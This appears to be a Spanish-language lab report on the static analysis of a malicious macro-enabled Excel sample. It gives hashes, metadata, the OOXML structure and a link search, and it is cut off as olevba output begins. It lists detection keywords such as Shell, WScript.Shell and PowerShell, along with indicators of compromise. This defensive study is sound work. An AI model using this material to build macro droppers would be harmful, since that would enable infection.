# **1. Información general de la muestra**
La muestra analizada corresponde a un documento de Microsoft Excel con extensión `.xlsm`, es decir, un libro de Excel habilitado para macros. Este tipo de fichero resulta especialmente relevante en análisis de malware documental, ya que los archivos .xlsm pueden almacenar código `VBA` o macros de Excel 4.0, mecanismos que han sido utilizados frecuentemente como vector inicial de infección en campañas maliciosas. Microsoft define el formato .xlsm como un formato `XML` de Excel habilitado para macros capaz de almacenar código `VBA` o macros `XLM`. La muestra ha sido identificada a partir de su hash `SHA-256` y se encuentra asociada a un informe de VirusTotal facilitado para el análisis. No obstante, la página pública de VirusTotal no permite extraer directamente sus metadatos desde esta consulta web porque requiere JavaScript para visualizar el contenido.

Por tanto, en este apartado se documentan únicamente los datos verificados localmente mediante comandos ejecutados en el entorno de análisis.

El fichero se conserva en un entorno controlado de laboratorio, dentro del directorio de trabajo destinado a la práctica `M9T5`, con el objetivo de realizar un análisis estático y, posteriormente, dinámico de la muestra. Al tratarse de un documento ofimático potencialmente malicioso, no debe abrirse directamente con Microsoft Excel ni habilitar macros fuera de una máquina virtual aislada.


## **1.1 Identificación del fichero**
La muestra se localiza en el sistema de análisis mediante la siguiente variable de entorno:
```

└─$ malwareXLSM="/home/xxniwexx/Escritorio/muestras-malware/ENIIT/M9T5/9a6b21529e1dce6bc494ef0cc67e983cc822226d2579be1e588bd8c483e95d66.xlsm"
```

El nombre del archivo coincide con un valor hash SHA-256, lo que permite identificar de forma única la muestra analizada:
```bash
9a6b21529e1dce6bc494ef0cc67e983cc822226d2579be1e588bd8c483e95d66
```

La identificación inicial del tipo de fichero se realizó con el comando `file`:
```bash
└─$ file "$malwareXLSM"                        
9a6b21529e1dce6bc494ef0cc67e983cc822226d2579be1e588bd8c483e95d66.xlsm: Microsoft Excel 2007+
```
Este resultado indica que el fichero pertenece al formato de documentos de Microsoft Excel introducido a partir de Office 2007, basado en la estructura `Office Open XML`. La extensión `.xlsm` sugiere además que se trata de un libro de Excel habilitado para macros, por lo que el análisis deberá centrarse especialmente en la posible presencia de código `VBA`, macros `XLM`, objetos incrustados, relaciones externas, cadenas ofuscadas y mecanismos de autoejecución.

A nivel de identificación preliminar, los datos disponibles de la muestra son los siguientes:
| Campo                        | Valor                                                                   |
| ---------------------------- | ----------------------------------------------------------------------- |
| Nombre del fichero           | `9a6b21529e1dce6bc494ef0cc67e983cc822226d2579be1e588bd8c483e95d66.xlsm` |
| Hash SHA-256                 | `9a6b21529e1dce6bc494ef0cc67e983cc822226d2579be1e588bd8c483e95d66`      |
| Extensión                    | `.xlsm`                                                                 |
| Tipo detectado por `file`    | `Microsoft Excel 2007+`                                                 |
| Ruta local                   | `~/Escritorio/muestras-malware/ENIIT/M9T5/`                |
| Naturaleza del fichero       | Documento Excel habilitado para macros                                  |
| Plataforma objetivo probable | Microsoft Windows / Microsoft Office                                    |
| Estado inicial               | Muestra sospechosa/maliciosa pendiente de análisis estático detallado   |


## **1.2 Hashes y footprinting**
Este proceso permite obtener una huella digital única de la muestra y facilita su correlación con repositorios externos, motores antivirus, plataformas de inteligencia de amenazas y futuras fases del análisis.

El valor `SHA-256` coincide con el nombre del fichero, lo que indica que la muestra ha sido almacenada utilizando su propio hash como identificador. Esta práctica es habitual en entornos de análisis de malware, ya que permite referenciar la muestra de forma inequívoca y reduce el riesgo de confundirla con otros archivos.

Además, comprobaremos el tamaño y los metadatos básicos del fichero mediante el comando `ls -lh`:

```
└─$ md5sum "$malwareXLSM" 
82e3d3a0f58e4b25719724742a1832df  9a6b21529e1dce6bc494ef0cc67e983cc822226d2579be1e588bd8c483e95d66.xlsm
                                                                                                                                                      

└─$ sha256sum "$malwareXLSM"
9a6b21529e1dce6bc494ef0cc67e983cc822226d2579be1e588bd8c483e95d66  9a6b21529e1dce6bc494ef0cc67e983cc822226d2579be1e588bd8c483e95d66.xlsm


└─$ ls -lh "$malwareXLSM"
-rw-rw-r-- 1 xx xx 411K nov 19  2020 9a6b21529e1dce6bc494ef0cc67e983cc822226d2579be1e588bd8c483e95d66.xlsm
```

Los principales indicadores de identificación de la muestra son los siguientes:
| Campo                         | Valor                                                                   |
| ----------------------------- | ----------------------------------------------------------------------- |
| MD5                           | `82e3d3a0f58e4b25719724742a1832df`                                      |
| SHA-256                       | `9a6b21529e1dce6bc494ef0cc67e983cc822226d2579be1e588bd8c483e95d66`      |
| Nombre del fichero            | `9a6b21529e1dce6bc494ef0cc67e983cc822226d2579be1e588bd8c483e95d66.xlsm` |
| Tamaño                        | `411K`                                                                  |
| Fecha mostrada por el sistema | `19 de noviembre de 2020`                                               |
| Permisos                      | `-rw-rw-r--`                                                            |
| Propietario                   | `xx`                                                              |
| Grupo                         | `xx`                                                              |


El hash `SHA-256` será utilizado como identificador principal durante el resto del análisis, ya que ofrece mayor robustez frente a colisiones que `MD5` y es el valor empleado habitualmente en plataformas como VirusTotal para indexar muestras maliciosas. Por su parte, el hash `MD5` se conserva como indicador complementario, útil para búsquedas rápidas o correlaciones con bases de datos antiguas.


## **1.3 Consultas Externas**

### **A) VirusTotal**
https://www.virustotal.com/gui/file/9a6b21529e1dce6bc494ef0cc67e983cc822226d2579be1e588bd8c483e95d66


### **B) JoeSanBox**
- https://www.joesandbox.com/analysis/808617/0/html
- https://www.joesandbox.com/analysis/808617/0/pdf


# **2. Identificación del formato Excel**
La muestra analizada corresponde a un fichero con extensión `.xlsm`, asociado a documentos de Microsoft Excel habilitados para macros. Este formato pertenece a la familia de documentos `Office Open XML` introducida a partir de `Microsoft Office 2007`, cuya estructura interna se basa en un contenedor comprimido en formato `ZIP` que almacena diferentes ficheros `XML`, relaciones internas, hojas de cálculo, propiedades del documento y, en caso de existir, código macro.

La identificación inicial del formato se realizó mediante el comando `file`, obteniéndose el siguiente resultado:
```bash
file "$malwareXLSM"
9a6b21529e1dce6bc494ef0cc67e983cc822226d2579be1e588bd8c483e95d66.xlsm: Microsoft Excel 2007+
```

Esta salida confirma que el archivo es reconocido por el sistema como un documento de `Microsoft Excel` en formato moderno, compatible con `Office 2007` o versiones posteriores. La extensión `.xlsm` es especialmente relevante desde el punto de vista del análisis de malware, ya que indica que el libro de Excel puede contener macros `VBA` o componentes relacionados con la ejecución de código dentro del entorno de `Microsoft Office`.

A diferencia de un fichero `.xlsx`, que corresponde a un libro de Excel sin macros, un fichero `.xlsm` está diseñado para permitir la inclusión de código macro. Esto convierte a este tipo de documentos en un vector habitual en campañas de malware.

Desde el punto de vista estructural, un documento `.xlsm` suele contener directorios y ficheros internos como los siguientes:
```bash
[Content_Types].xml
_rels/
docProps/
xl/
xl/workbook.xml
xl/worksheets/
xl/_rels/
xl/vbaProject.bin
```

La presencia del fichero `xl/vbaProject.bin` sería un indicador especialmente importante, ya que este componente almacena el proyecto `VBA` del documento. En caso de estar presente, debería ser extraído y analizado con herramientas específicas como `olevba`, `oledump.py`, `oleid`, `olemeta`, `oleobj` o utilidades de descompresión como `unzip` y `7z`.

Para confirmar la estructura interna del documento se puede utilizar el siguiente comando:
```bash
unzip -l "$malwareXLSM"

```

También resulta útil filtrar los elementos relacionados con macros, `VBA` u objetos internos de Excel:
```bash
unzip -l "$malwareXLSM" | grep -Ei "vba|macro|xl/|ole|rels"

```

Los siguientes pasos deberán centrarse en comprobar si contiene código `VBA`, macros `XLM`, objetos `OLE` incrustados, relaciones externas, cadenas ofuscadas o mecanismos de autoejecución como `Auto_Open`, `Workbook_Open` o eventos asociados al libro de Excel.

La identificación del formato es una fase clave del análisis, ya que permite seleccionar las herramientas adecuadas y orientar el estudio hacia los componentes más relevantes del documento. En este caso, al tratarse de un `.xlsm`, el análisis estático deberá priorizar la extracción y revisión del contenido macro antes de cualquier intento de ejecución controlada en un entorno dinámico.


# **3. Análisis estático inicial**

Una vez identificada la muestra y calculados sus hashes principales, se procede con una primera fase de análisis estático. El objetivo de esta etapa es obtener información del fichero sin ejecutarlo, reduciendo así el riesgo asociado a la manipulación de un documento potencialmente malicioso.

El análisis estático inicial permite conocer características básicas del archivo, como su formato real, tamaño, fechas asociadas, permisos, metadatos internos, aplicación utilizada para su creación y posibles indicios relacionados con macros, objetos incrustados o contenido activo. Esta información resulta útil para orientar las siguientes fases del análisis, especialmente en documentos ofimáticos como los .xlsm, que pueden contener código `VBA` o mecanismos de ejecución automática.

En esta fase se emplea principalmente la herramienta `ExifTool`, que permite extraer metadatos tanto del sistema de ficheros como del contenido interno del documento. Estos datos deben interpretarse con cautela, ya que pueden haber sido modificados, manipulados o no corresponder necesariamente con la fecha real de creación de la muestra maliciosa.


## **3.1 Metadatos con Exiftool**
Para extraer los metadatos de la muestra se ejecutó `ExifTool` sobre el fichero `.xlsm`, redirigiendo la salida a un archivo de texto para conservar los resultados del análisis:
```
└─$ exiftool "$malwareXLSM" > exiftool-M9T5.txt  
ExifTool Version Number         : 13.50
File Name                       : 9a6b21529e1dce6bc494ef0cc67e983cc822226d2579be1e588bd8c483e95d66.xlsm
Directory                       : /home/xxniwexx/Escritorio/muestras-malware/ENIIT/M9T5
File Size                       : 420 kB
File Modification Date/Time     : 2020:11:19 15:30:54+01:00
File Access Date/Time           : 2026:05:29 13:35:11+02:00
File Inode Change Date/Time     : 2026:05:29 13:34:20+02:00
File Permissions                : -rw-rw-r--
File Type                       : XLSM
File Type Extension             : xlsm
MIME Type                       : application/vnd.ms-excel.sheet.macroEnabled.12
Zip Required Version            : 20
Zip Bit Flag                    : 0x0006
Zip Compression                 : Deflated
Zip Modify Date                 : 1980:01:01 00:00:00
Zip CRC                         : 0x0bb99cf2
Zip Compressed Size             : 395
Zip Uncompressed Size           : 1257
Zip File Name                   : [Content_Types].xml
Creator                         : Windows User
Last Modified By                : Windows User
Create Date                     : 2020:11:11 21:49:33Z
Modify Date                     : 2020:11:11 21:49:40Z
Application                     : Microsoft Excel
Doc Security                    : None
Scale Crop                      : No
Heading Pairs                   : Worksheets, 1
Titles Of Parts                 : Sheet1
Company                         : 
Links Up To Date                : No
Shared Doc                      : No
Hyperlinks Changed              : No
App Version                     : 16.0300
```


La herramienta identificó correctamente el fichero como un documento Excel habilitado para macros:
```bash
File Type                       : XLSM
File Type Extension             : xlsm
MIME Type                       : application/vnd.ms-excel.sheet.macroEnabled.12
Application                     : Microsoft Excel
```

Este resultado confirma que la muestra pertenece al formato `.xlsm,` correspondiente a documentos de Microsoft Excel con soporte para macros. El tipo MIME `application/vnd.ms-excel.sheet.macroEnabled.12` refuerza esta identificación y resulta especialmente relevante, ya que indica que el documento puede contener código macro ejecutable dentro del entorno de Microsoft Office.

Los principales metadatos extraídos son los siguientes:
| Campo                       | Valor                                                                   |
| --------------------------- | ----------------------------------------------------------------------- |
| ExifTool Version Number     | `13.50`                                                                 |
| File Name                   | `9a6b21529e1dce6bc494ef0cc67e983cc822226d2579be1e588bd8c483e95d66.xlsm` |
| Directory                   | `/home/xxniwexx/Escritorio/muestras-malware/ENIIT/M9T5`                 |
| File Size                   | `420 kB`                                                                |
| File Modification Date/Time | `2020:11:19 15:30:54+01:00`                                             |
| File Access Date/Time       | `2026:05:29 13:35:11+02:00`                                             |
| File Inode Change Date/Time | `2026:05:29 13:34:20+02:00`                                             |
| File Permissions            | `-rw-rw-r--`                                                            |
| File Type                   | `XLSM`                                                                  |
| File Type Extension         | `xlsm`                                                                  |
| MIME Type                   | `application/vnd.ms-excel.sheet.macroEnabled.12`                        |
| Zip Required Version        | `20`                                                                    |
| Zip Bit Flag                | `0x0006`                                                                |
| Zip Compression             | `Deflated`                                                              |
| Zip Modify Date             | `1980:01:01 00:00:00`                                                   |
| Zip CRC                     | `0x0bb99cf2`                                                            |
| Zip Compressed Size         | `395`                                                                   |
| Zip Uncompressed Size       | `1257`                                                                  |
| Zip File Name               | `[Content_Types].xml`                                                   |
| Creator                     | `Windows User`                                                          |
| Last Modified By            | `Windows User`                                                          |
| Create Date                 | `2020:11:11 21:49:33Z`                                                  |
| Modify Date                 | `2020:11:11 21:49:40Z`                                                  |
| Application                 | `Microsoft Excel`                                                       |
| Doc Security                | `None`                                                                  |
| Scale Crop                  | `No`                                                                    |
| Heading Pairs               | `Worksheets, 1`                                                         |
| Titles Of Parts             | `Sheet1`                                                                |
| Company                     |                                                                         |
| Links Up To Date            | `No`                                                                    |
| Shared Doc                  | `No`                                                                    |
| Hyperlinks Changed          | `No`                                                                    |
| App Version                 | `16.0300`                                                               |

Uno de los primeros aspectos relevantes es la diferencia entre las fechas internas del documento y las fechas del sistema de ficheros. Según los metadatos internos, el documento fue creado el `11 de noviembre de 2020 a las 21:49:33 UTC` y modificado pocos segundos después, a las `21:49:40 UTC`. Sin embargo, la fecha de modificación del fichero en el sistema aparece como `19 de noviembre de 2020 a las 15:30:54+01:00`.

Esta diferencia puede deberse a varios factores, como la copia del fichero entre sistemas, su descarga desde una fuente externa, la extracción desde un contenedor o la manipulación de `timestamps`. Por este motivo, estas fechas no deben considerarse de forma aislada como prueba definitiva de la fecha real de creación de la muestra, aunque sí aportan contexto temporal útil para el análisis.

También se observa que tanto el campo `Creator` como `Last Modified By` contienen el valor:
```bash
Windows User
```

Este dato indica que el documento fue creado o modificado desde un entorno Windows con Microsoft Excel. No obstante, se trata de un valor genérico y no permite atribuir la muestra a un usuario real ni a un origen concreto.

Otro elemento destacable es que el documento contiene una única hoja de cálculo:

```bash
Heading Pairs                   : Worksheets, 1
Titles Of Parts                 : Sheet1
```

La presencia de una sola hoja denominada `Sheet1` puede ser compatible con documentos maliciosos simples, diseñados principalmente como contenedor de macros o como señuelo para inducir al usuario a habilitar contenido activo. No obstante, esta hipótesis deberá confirmarse posteriormente mediante la inspección del contenido interno del archivo, la revisión de macros y el análisis de posibles objetos incrustados.


En resumen, el análisis con `ExifTool` confirma que la muestra es un documento `Microsoft Excel` habilitado para macros, creado con `Microsoft Excel` y compuesto aparentemente por una única hoja de cálculo. Los metadatos no permiten atribuir la muestra a un autor concreto, pero sí proporcionan información relevante para continuar el análisis estático, especialmente la confirmación del formato `.xlsm`, la existencia de un contenedor `Office Open XML` y la necesidad de inspeccionar posibles macros VBA, relaciones internas, objetos incrustados y cadenas sospechosas.


## **3.2 Análisis inicial de OOXML (.xlsx, .xlsm, .xlsb)**

### **A) Estructura interna del documento `OOXML`**
Los documentos modernos de Microsoft Office, como `.xlsx`, `.xlsm` o `.docx`, no son ficheros monolíticos, sino contenedores comprimidos basados en formato `ZIP`. En su interior almacenan distintos ficheros `XML`, relaciones internas, propiedades del documento, hojas de cálculo, estilos, temas, recursos multimedia y, en el caso concreto de los .xlsm, posibles proyectos VBA asociados a macros.

Para inspeccionar la estructura interna de la muestra sin abrirla con `Microsoft Excel`, se utilizó el comando `unzip -l`, que permite listar el contenido del contenedor `OOXML` de forma segura:

```
└─$ unzip -l "$malwareXLSM"                                                                        
Archive:  /home/xxniwexx/Escritorio/muestras-malware/ENIIT/M9T5/9a6b21529e1dce6bc494ef0cc67e983cc822226d2579be1e588bd8c483e95d66.xlsm
  Length      Date    Time    Name
---------  ---------- -----   ----
     1257  1980-01-01 00:00   [Content_Types].xml
      588  1980-01-01 00:00   _rels/.rels
      679  1980-01-01 00:00   xl/_rels/workbook.xml.rels
     1241  1980-01-01 00:00   xl/workbook.xml
     1141  1980-01-01 00:00   xl/drawings/drawing1.xml
      292  1980-01-01 00:00   xl/drawings/_rels/drawing1.xml.rels
      299  1980-01-01 00:00   xl/worksheets/_rels/sheet1.xml.rels
     6796  1980-01-01 00:00   xl/theme/theme1.xml
     1540  1980-01-01 00:00   xl/styles.xml
      694  1980-01-01 00:00   xl/worksheets/sheet1.xml
    14336  1980-01-01 00:00   xl/vbaProject.bin
   405384  1980-01-01 00:00   xl/media/image1.jpg
      617  1980-01-01 00:00   docProps/core.xml
      785  1980-01-01 00:00   docProps/app.xml
---------                     -------
   435649 
```
El listado confirma que el fichero presenta una estructura compatible con un documento Excel en formato Office Open `XML`. Se observan los componentes habituales de este tipo de documentos, como `[Content_Types].xml`, el directorio `_rels/`, las propiedades del documento en `docProps/` y el directorio `principal xl/`, donde se almacenan los elementos propios del libro de Excel.

Dentro del directorio `xl/` aparecen varios elementos relevantes para el análisis:
| Ruta interna                          | Descripción                                                                                                       |
| ------------------------------------- | ----------------------------------------------------------------------------------------------------------------- |
| `[Content_Types].xml`                 | Define los tipos de contenido incluidos en el paquete OOXML.                                                      |
| `_rels/.rels`                         | Contiene las relaciones principales del documento.                                                                |
| `xl/_rels/workbook.xml.rels`          | Define las relaciones internas del libro de Excel, incluyendo posibles vínculos a macros, hojas u otros recursos. |
| `xl/workbook.xml`                     | Define la estructura principal del libro de Excel.                                                                |
| `xl/worksheets/sheet1.xml`            | Contiene la información de la hoja de cálculo principal.                                                          |
| `xl/worksheets/_rels/sheet1.xml.rels` | Define las relaciones asociadas a la hoja `sheet1.xml`, como dibujos, imágenes u otros elementos vinculados.      |
| `xl/vbaProject.bin`                   | Contiene el proyecto VBA del documento. Es uno de los elementos más relevantes del análisis.                      |
| `xl/media/image1.jpg`                 | Imagen incrustada dentro del documento, posiblemente utilizada como elemento visual o señuelo.                    |
| `xl/drawings/drawing1.xml`            | Define elementos gráficos o dibujos insertados en la hoja de cálculo.                                             |
| `xl/drawings/_rels/drawing1.xml.rels` | Define las relaciones asociadas al dibujo, normalmente vinculadas a imágenes u objetos gráficos.                  |
| `xl/theme/theme1.xml`                 | Contiene información del tema visual del documento, como colores y estilos.                                       |
| `xl/styles.xml`                       | Define estilos aplicados a las celdas del libro de Excel.                                                         |
| `docProps/core.xml`                   | Contiene metadatos principales del documento, como autor, fecha de creación y fecha de modificación.              |
| `docProps/app.xml`                    | Contiene metadatos asociados a la aplicación que generó o modificó el documento.                                  |

El elemento más importante identificado en esta fase es:
```bash
xl/vbaProject.bin
```

La presencia de `vbaProject.bin `confirma que el documento contiene un proyecto `VBA`, lo que resulta coherente con su extensión `.xlsm`. Este archivo interno almacena las macros del documento y será uno de los principales objetivos del análisis estático posterior, ya que puede contener código de autoejecución, instrucciones ofuscadas, llamadas a `APIs` del sistema, creación de procesos, descarga de payloads o ejecución de comandos.

También destaca la presencia de una imagen incrustada:
```bash
xl/media/image1.jpg

```
Su tamaño, aproximadamente `405 KB`, representa la mayor parte del contenido del documento. Esto puede indicar que el documento incluye una imagen utilizada como señuelo visual, por ejemplo para simular un mensaje legítimo, una factura, una notificación o una instrucción para habilitar macros. Este tipo de recurso es habitual en documentos maliciosos, aunque será necesario extraer y revisar la imagen para confirmar su finalidad.


Otro aspecto llamativo es que todos los elementos internos muestran la fecha:

```bash
1980-01-01 00:00
```

Esta fecha no debe interpretarse como la fecha real de creación del documento. En ficheros `ZIP` y contenedores `OOXML` puede aparecer como valor por defecto, especialmente cuando el documento ha sido generado, manipulado o empaquetado mediante herramientas automatizadas. Por tanto, este dato debe tratarse como un indicador técnico del empaquetado, no como una marca temporal fiable del origen de la muestra.


En conclusión, el análisis inicial del contenedor `OOXML` confirma que la muestra es un documento Excel habilitado para macros y que contiene, como mínimo, una hoja de cálculo, un proyecto `VBA` y una imagen incrustada.

### **B) Extracción del contenido del documento OOXML**
Tras listar la estructura interna del fichero `.xlsm,` se procedió a extraer su contenido en un directorio independiente. Esta operación permite trabajar directamente con los ficheros internos del documento `Office Open XML` sin necesidad de abrirlo con `Microsoft Excel`, reduciendo el riesgo de ejecución accidental de macros o contenido activo.

Para ello, se creó primero un directorio destinado a almacenar los elementos extraídos y se escomprimió la muestra utilizando `unzip`:
```
└─$ mkdir xlsm_extract   
                                                                                                                                                      

└─$ unzip -q "$malwareXLSM" -d xlsm_extract 
``` 

La salida obtenida fue la siguiente:
```
└─$ ls xlsm_extract      
'[Content_Types].xml'   docProps   _rels   xl
```
El resultado confirma que el documento ha sido extraído correctamente y que presenta la estructura habitual de un paquete `OOXML`. Los elementos obtenidos se corresponden con los principales componentes internos del documento:
| Elemento              | Descripción                                                                                                                     |
| --------------------- | ------------------------------------------------------------------------------------------------------------------------------- |
| `[Content_Types].xml` | Fichero que define los tipos de contenido presentes dentro del paquete OOXML.                                                   |
| `_rels/`              | Directorio que contiene las relaciones principales del documento.                                                               |
| `docProps/`           | Directorio que almacena metadatos del documento, como autor, fechas de creación/modificación y aplicación utilizada.            |
| `xl/`                 | Directorio principal del libro de Excel, donde se encuentran hojas de cálculo, estilos, relaciones, imágenes y el proyecto VBA. |


La extracción del documento permite analizar de forma individual cada uno de estos componentes. En este caso, el directorio `xl/` es el más relevante desde el punto de vista del análisis de malware, ya que en él se encuentra el fichero `vbaProject.bin`, identificado previamente durante el listado del contenedor. Este archivo contiene el proyecto `VBA` asociado al documento y deberá ser examinado en detalle para localizar posibles macros maliciosas, rutinas de autoejecución, cadenas ofuscadas o llamadas a funciones sospechosas.

Además, la extracción facilita la revisión de otros elementos potencialmente relevantes, como imágenes incrustadas, relaciones externas, hojas ocultas o referencias a objetos embebidos. Por tanto, este paso constituye una fase intermedia necesaria antes de profundizar en el análisis de macros y en la identificación de indicadores de compromiso internos.


### **C) Enumeración completa de ficheros extraídos**


Una vez extraído el contenido del documento `.xlsm,` se realizó una enumeración completa de todos los ficheros internos mediante el comando `find`. Este paso permite visualizar de forma ordenada la estructura real del paquete `OOXML` y localizar aquellos componentes que pueden resultar relevantes para el análisis estático.

El comando utilizado fue el siguiente:
```
└─$ find xlsm_extract -type f | sort 
xlsm_extract/[Content_Types].xml
xlsm_extract/docProps/app.xml
xlsm_extract/docProps/core.xml
xlsm_extract/_rels/.rels
xlsm_extract/xl/drawings/drawing1.xml
xlsm_extract/xl/drawings/_rels/drawing1.xml.rels
xlsm_extract/xl/media/image1.jpg
xlsm_extract/xl/_rels/workbook.xml.rels
xlsm_extract/xl/styles.xml
xlsm_extract/xl/theme/theme1.xml
xlsm_extract/xl/vbaProject.bin
xlsm_extract/xl/workbook.xml
xlsm_extract/xl/worksheets/_rels/sheet1.xml.rels
xlsm_extract/xl/worksheets/sheet1.xml
```

La enumeración confirma que el documento contiene un total de `14 ficheros` internos distribuidos en varios directorios característicos de un documento `Office Open XML`. Entre ellos se identifican ficheros de configuración del paquete, metadatos, relaciones internas, elementos propios del libro de Excel, una hoja de cálculo, un recurso gráfico y un proyecto `VBA`.

Los componentes pueden agruparse de la siguiente forma:
| Categoría                    | Ficheros identificados                                                                   | Relevancia para el análisis                                                        |
| ---------------------------- | ---------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------- |
| Definición del paquete OOXML | `[Content_Types].xml`                                                                    | Permite identificar los tipos de contenido presentes en el documento.              |
| Relaciones generales         | `_rels/.rels`                                                                            | Define las relaciones principales entre los componentes del paquete.               |
| Metadatos                    | `docProps/app.xml`, `docProps/core.xml`                                                  | Contienen información sobre autor, aplicación, fechas y propiedades del documento. |
| Libro de Excel               | `xl/workbook.xml`, `xl/_rels/workbook.xml.rels`                                          | Define la estructura principal del libro y sus relaciones internas.                |
| Hoja de cálculo              | `xl/worksheets/sheet1.xml`, `xl/worksheets/_rels/sheet1.xml.rels`                        | Contiene la información de la hoja y sus relaciones asociadas.                     |
| Recursos visuales            | `xl/media/image1.jpg`, `xl/drawings/drawing1.xml`, `xl/drawings/_rels/drawing1.xml.rels` | Indican la presencia de una imagen incrustada y elementos gráficos asociados.      |
| Estilos y tema               | `xl/styles.xml`, `xl/theme/theme1.xml`                                                   | Definen el aspecto visual del documento.                                           |
| Macros VBA                   | `xl/vbaProject.bin`                                                                      | Contiene el proyecto VBA del documento y constituye el elemento de mayor interés.  |


El fichero más relevante desde el punto de vista del análisis de malware es:
```bash
xlsm_extract/xl/vbaProject.bin
```

Este componente confirma la existencia de un proyecto `VBA` dentro del documento. En documentos `.xlsm` maliciosos, este archivo puede contener macros encargadas de ejecutar comandos, invocar objetos `COM`, descargar payloads externos, crear procesos, modificar el sistema o actuar como primera fase de infección. Por ello, deberá ser analizado posteriormente con herramientas especializadas como `olevba`, `oledump.py `o `oletools`.

También destaca la presencia del fichero:
```bash
xlsm_extract/xl/media/image1.jpg
```

La inclusión de una imagen dentro del documento puede estar relacionada con un elemento de ingeniería social. En muchas campañas de malware ofimático, las imágenes incrustadas se utilizan para mostrar instrucciones falsas al usuario, como mensajes de documento protegido, errores de visualización o indicaciones para habilitar macros. Por este motivo, este recurso también deberá ser revisado visualmente y, si procede, analizado de forma independiente.

Por otro lado, los ficheros de relaciones, especialmente:
```bash
xlsm_extract/xl/_rels/workbook.xml.rels
xlsm_extract/xl/worksheets/_rels/sheet1.xml.rels
xlsm_extract/xl/drawings/_rels/drawing1.xml.rels
```
son importantes porque pueden revelar vínculos entre el libro, la hoja, las imágenes, las macros u otros objetos internos. En algunos documentos maliciosos, estas relaciones también pueden apuntar a recursos externos o contener referencias sospechosas, por lo que deben inspeccionarse manualmente.

En conclusión, la enumeración completa de los ficheros extraídos confirma que la muestra presenta una estructura `OOXML` sencilla, compuesta por una única hoja de cálculo, un recurso gráfico incrustado y un proyecto `VBA`. La presencia de vbaProject.bin convierte el análisis de macros en la prioridad principal de las siguientes fases, mientras que la imagen incrustada y los ficheros de relaciones deberán revisarse para identificar posibles mecanismos de ingeniería social o vínculos internos relevantes.


## **3.3 Relaciones externas y objetos vinculados**
Tras la extracción del contenido del documento OOXML, se procedió a buscar posibles relaciones externas, enlaces remotos, rutas locales, referencias `UNC` y objetos vinculados. Este paso es importante en el análisis de documentos ofimáticos maliciosos, ya que algunos ficheros `.xlsm `pueden contener referencias a recursos externos utilizados para descargar payloads, cargar plantillas remotas, abrir rutas compartidas o invocar contenido alojado en servidores controlados por el atacante.

Para ello, se realizó una búsqueda recursiva dentro del directorio extraído `xlsm_extract`, filtrando patrones relacionados con `URLs`, rutas de tipo `file`: y rutas `UNC` con doble barra invertida:
```
└─$ grep -Rai "http\|https|file:\|\\\\"  xlsm_extract 
```

Posteriormente, la salida fue almacenada en un fichero Markdown para documentar el resultado del análisis:
```
└─$ ggrep -Rai "http\|https|file:\|\\\\"  xlsm_extract > relaccion_externas_y_objetos_vinculados.md
``` 

Obtenemos el fichero: [relaccion_externas_y_objetos_vinculados.md]xxxxxxxxxxxxxxx

La revisión de la salida muestra principalmente referencias internas propias del formato `OOXML`. En concreto, aparecen URLs asociadas a espacios de nombres `XML` utilizados por `Microsoft Office` y `Open XML`, como:


```bash
http://schemas.openxmlformats.org/package/2006/relationships
http://schemas.openxmlformats.org/officeDocument/2006/relationships/officeDocument
http://schemas.openxmlformats.org/officeDocument/2006/relationships/worksheet
http://schemas.openxmlformats.org/officeDocument/2006/relationships/theme
http://schemas.microsoft.com/office/2006/relationships/vbaProject
```

En documentos `OOXML` es habitual encontrar URLs de este tipo, ya que forman parte de la definición estándar de relaciones, tipos de contenido y espacios de nombres XML.

A partir de esta revisión inicial, no se identifican URLs externas, dominios, direcciones `IP`, rutas `file:` ni rutas `UNC` claramente maliciosas dentro de los ficheros `XML` y `.rels` revisados. Los resultados observados corresponden principalmente a relaciones internas del documento y a espacios de nombres estándar de `OOXML`.


# **4. Macros VBA  y macros Excel 4.0/XLM**
Una vez confirmada la presencia del fichero `xl/vbaProject.bin` dentro de la estructura `OOXML` del documento, se procede al análisis específico de macros. Esta fase es crítica en documentos Excel con extensión `.xlsm`, ya que este tipo de archivos puede contener código `VBA` ejecutable y, en algunos casos, macros `Excel 4.0/XLM `utilizadas para automatizar acciones maliciosas.

En el contexto del análisis de malware documental, las macros pueden actuar como primera fase de ejecución. Entre sus funciones habituales se encuentran la ejecución de comandos del sistema, la descarga de payloads externos, la invocación de PowerShell, la creación de procesos, la escritura de ficheros en disco, la comunicación con servidores remotos o la preparación del entorno para una segunda etapa de infección.

En esta muestra, la identificación previa del componente:
```bash
xl/vbaProject.bin
```

Confirma que el documento contiene un proyecto `VBA` embebido. Por tanto, el análisis se centra inicialmente en la extracción y revisión del código `VBA`, prestando especial atención a los siguientes aspectos:
- Rutinas de autoejecución, como `Workbook_Open`, `Auto_Open` o eventos asociados al documento.
- Uso de funciones peligrosas o sospechosas, como `Shell`, `CreateObject`, `WScript.Shell`, `PowerShell`, `cmd.exe` o llamadas a objetos `COM`.
- Cadenas ofuscadas o codificadas.
- Funciones auxiliares destinadas a reconstruir comandos en tiempo de ejecución.
- Posibles `URLs`, dominios, rutas locales o indicadores de compromiso.
- Existencia de macros `Excel 4.0/XLM `o fórmulas con capacidad de ejecución.

En esta primera revisión, el análisis con `olevba` permite confirmar la existencia de macros `VBA` y detectar patrones claramente sospechosos, especialmente una rutina de autoejecución y el uso de la función `Shell`.


## **4.1 Análisis de macros VBA**

### **A) Análisis de macros VBA**
Para analizar las macros `VBA` embebidas en el documento se utilizó la herramienta o``levba, perteneciente al conjunto `oletools`. Esta herramienta permite extraer código `VBA` de documentos `Office`, identificar rutinas de autoejecución y marcar palabras clave sospechosas que pueden estar relacionadas con comportamiento malicioso:
```
└─$ olevba "$malwareXLSM"                                                                                                        
olevba 0.60.2 on Python 3.13.12 - http://decalage.info/python/oletools
===============================================================================
